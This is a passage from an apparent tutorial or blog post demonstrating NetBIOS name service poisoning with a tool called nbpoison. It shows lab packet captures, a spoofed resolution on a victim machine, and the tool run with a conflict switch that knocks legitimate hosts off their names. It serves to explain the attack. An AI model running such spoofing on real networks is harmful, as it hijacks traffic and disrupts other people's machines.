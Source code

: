And here's the victim machine:

```
C:Documents and SettingsRon>ping DEMO

Pinging DEMO [1.2.3.4] with 32 bytes of data:

Request timed out.
Request timed out.
Request timed out.
Request timed out.

Ping statistics for 1.2.3.4:
    Packets: Sent = 4, Received = 0, Lost = 4 (100% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum =  0ms, Average =  0ms
```

Notice that it resolved to my chosen IP!

Here's what the packet capture looks like:

```
192.168.1.41 -> 192.168.1.255	NBNS	Name query NB DEMO<00>
192.168.1.2 -> 192.168.1.41	NBNS	Name query response NB 1.2.3.4
```

Nothing complicated there -- It asks who has DEMO, and I respond saying, "1.2.3.4 does".

Where it gets a little more complicated is when you race another machine. Recall that my boxes are called TEST1 and TEST2. What happens when TEST2 tries to ping TEST1?

```
192.168.1.42 -> 192.168.1.255	NBNS	Name query NB TEST1<00>
192.168.1.41 -> 192.168.1.42	NBNS	Name query response NB 192.168.1.41
192.168.1.2 -> 192.168.1.42	NBNS	Name query response NB 1.2.3.4
```

In this case, TEST2 asks where to find TEST1, and gets two responses: one from TEST1, and one from me. Unfortunately, mine was second, so TEST2 gets the proper address and connects to the proper host.

Obviously, in an attack scenario, this isn't ideal. So, what can we do?

Recall a long time ago (at least, it feels like a long time ago when I'm typing...), I talked about sending a 'Conflict' packet to tell a system its name is already in use. So why don't we send a conflict ourselves?

To do this, we run nbpoison with the '-c' (or 'conflict') switch. This tells it to actively send out conflicts (I left it off by default because it can seriously break things). When that's enabled, it'll respond to every registration with a 'conflict'. Observe:

```
$ sudo ./nbpoison -s 1.2.3.4 -c
QUESTION name registration: (NB:TEST1    <00|workstation>)
(returning registration conflict)
ADDITIONAL name registration: (NB:TEST1    <00|workstation>): IP: 192.168.1.41, TTL: 300000s
QUESTION name registration: (NB:TEST1     <20|server>)
(returning registration conflict)
ADDITIONAL name registration: (NB:TEST1    <20|server>): IP: 192.168.1.41, TTL: 300000s
QUESTION name registration: (NB:TEST1    <03|messenger>)
(returning registration conflict)
ADDITIONAL name registration: (NB:TEST1    <03|messenger>): IP: 192.168.1.41, TTL: 300000s
```
